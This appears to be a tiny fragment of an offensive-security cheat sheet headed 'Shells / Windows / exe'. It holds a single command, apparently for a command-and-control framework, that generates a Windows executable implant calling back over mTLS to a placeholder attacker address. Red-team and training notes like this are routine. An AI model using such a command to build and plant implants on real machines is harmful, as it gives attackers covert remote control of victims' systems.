 Shells
****************

Windows
#############

exe
++++++++

.. code-block:: console

    generate -f exe -o windows -a amd64 --mtls X.X.X.X:<port> -s /tmp -n NAME
